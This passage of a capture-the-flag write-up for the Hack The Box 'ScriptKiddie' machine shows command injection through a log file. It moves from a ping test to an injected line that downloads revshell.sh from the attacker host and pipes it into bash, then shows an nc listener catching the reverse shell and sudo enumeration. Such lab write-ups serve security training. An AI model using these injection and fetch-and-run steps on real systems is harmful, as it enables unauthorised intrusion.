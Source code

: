 A `ping` command was used as payload and was **injected inside the log** file to verify the vulnerability:

```bash
kid@scriptkiddie:~/logs$ echo '0 0 $(ping -c1 10.10.14.14)' > hackers
```

```bash
┌──(kali㉿kali)-[~/…/box/ScriptKiddie/loot/pwn_script]
└─$ sudo tcpdump icmp -i tun0
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
12:20:06.879068 IP 10.10.10.226 > 10.10.14.14: ICMP echo request, id 5, seq 1, length 64
12:20:06.879098 IP 10.10.14.14 > 10.10.10.226: ICMP echo reply, id 5, seq 1, length 64
12:20:06.930982 IP 10.10.10.226 > 10.10.14.14: ICMP echo request, id 6, seq 1, length 64
12:20:06.931030 IP 10.10.14.14 > 10.10.10.226: ICMP echo reply, id 6, seq 1, length 64
```

Proved that it was possible to execute code, a two-stage reverse shell payload was then used.

Served the same reverse shell used during the foothold:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/ScriptKiddie/exploit]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Injected the staged command within the log:

```bash
kid@scriptkiddie:~/logs$ echo '0 0 $(curl 10.10.14.14/revshell.sh | bash )' > hackers
```

Obtained the reverse shell:

```bash
┌──(kali㉿kali)-[~/…/box/ScriptKiddie/loot/pwn_script]
└─$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.226] 56974
bash: cannot set terminal process group (856): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ whoami
whoami
pwn
pwn@scriptkiddie:~$
```

## Privilege Escalation

Enumerated sudo privileges of the `pwn` user:

```bash
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```
